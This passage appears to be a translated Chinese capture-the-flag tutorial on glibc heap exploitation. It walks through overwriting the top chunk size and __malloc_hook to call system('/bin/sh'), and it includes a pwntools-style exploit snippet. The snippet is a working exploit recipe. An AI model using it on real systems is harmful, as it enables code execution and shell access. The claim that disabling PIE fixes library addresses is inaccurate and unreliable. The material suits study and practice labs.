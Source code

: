 - 堆地址 ---> 0x3dd6000  
  
由于 PIE（地址无关可执行文件）被禁用，二进制文件及其关联库每次都会加载到相同地址。这使我们能够可靠地利用 libc 地址泄漏来执行系统命令  
### 利用 malloc 钩子  
  
在 glibc 中，核心内存管理函数如 malloc() 和 free() 使用 glibc 数据段中的可写函数指针作为钩子。攻击者可以利用这些钩子在内存分配/释放期间重定向函数调用并执行任意代码  
  
通过覆写这些钩子，我们的目标是劫持程序执行流并执行任意命令  
### 连接__malloc_hook 的间隙  
  
要操作__malloc_hook，我们需要填补 top chunk 与__malloc_hook 指针之间的间隙。这包括：  
- **使用 malloc() 填补间隙：**  
 通过下方 payload 分配内存来覆写 top chunk 的大小  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCPDpiarAyI4sLJ9HFf6Sza0FBwKne2D5SotZpic3FM7pZ8DBPnhshCNRREQSbb577gD2WpFwTP27S0g/640?wx_fmt=png&from=appmsg "")  
  
使用 malloc 填补间隙示意图  
  
使用 malloc() 填补间隙  
- **调整距离计算：**  
 计算到__malloc_hook 的距离时，需要从__malloc_hook 地址中减去 0x20 以应对对齐和元数据问题  
  
通过仔细执行这些步骤，我们可以重定向程序流并通过覆写的__malloc_hook 执行预定命令  
  
在上述操作中，**我们减去 0x20 是为了应对堆块元数据**  
，这些元数据在堆中位于用户数据之前。这种调整确保我们的计算与分配块的有效使用区域对齐  
  
距离计算提供了填补 top chunk 与 malloc 钩子之间间隙所需的精确偏移量。使用公式 libc.sym.__malloc_hook - 0x20，我们可以定位__malloc_hook 可用区域的起始位置。通过从这个值中减去 (heap + 0x20)，我们可以准确定位到 top chunk 中 payload 区域的起始位置  
  
计算距离后，我们将该值传递给 malloc() 来填补 top chunk 与__malloc_hook 之间的间隙  
  
填补间隙后，我们用 payload 覆写 malloc 钩子。例如，我们再次**分配 24 字节后跟随机地址**  
（如 0xdeadbeef）来**展示对执行流的控制**  
。这将破坏程序流并中断执行。为确保内存地址可预测，请使用 GDB 在禁用 ASLR 的情况下运行程序。在 Vim 命令行模式中执行：  
```
`:!./% GDB NOASLR
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCPDpiarAyI4sLJ9HFf6Sza0FC4yPAoKPTYhdyicLhic70nibZecTPVbEAyyfQOuImMlQ7iaPHNjgwA7HXQ/640?wx_fmt=png&from=appmsg "")  
  
running_no_aslr_1  
  
如果我们尝试调用 malloc 进行内存分配，程序将因"无效地址"错误而停止执行，如下图所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCPDpiarAyI4sLJ9HFf6Sza0Fa1F9uYNNVzpPuP9r9vYuh6bHoJNwzBn4L2sSA1fgML8wdoUuzTKJ5Q/640?wx_fmt=png&from=appmsg "")  
  
执行最终漏洞利用过程  
  
现在，我们将原本使用的 0xdeadbeef 地址替换为 libc 中的/bin/sh 地址。这使我们能够执行 system("/bin/sh") 命令，**成功弹出一个系统 shell**  
。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCPDpiarAyI4sLJ9HFf6Sza0FXiaIMdY0NdbMeNqLMibCqPZa7ulhj4PrWJ1ADiaAXklMyiamEn6kwJMufQ/640?wx_fmt=png&from=appmsg "")  
  
在 libc 中搜索/bin/sh 字符串位置  
```
malloc(24, b"Y"*24 + p64(0xffffffffffffffff))  # Overwrite top chunk size to maximumdistance = (libc.sym.__malloc_hook - 0x20) - (heap + 0x20)  # Calculate distance from current top chunk to __malloc_hookmalloc(distance, "/bin/sh\0")  # Allocate memory to overlap __malloc_hook and write "/bin/sh" stringmalloc(24, p64(libc.sym.system))  # Overwrite __malloc_hook with system() function addresscmd = next(libc.search(b"/bin/sh"))  # Find "/bin/sh" string in libcmalloc(cmd, "")  # Trigger system("/bin/sh") to pop a shell
```  
## 具体实现步骤  
1. 写入/bin/sh:  
  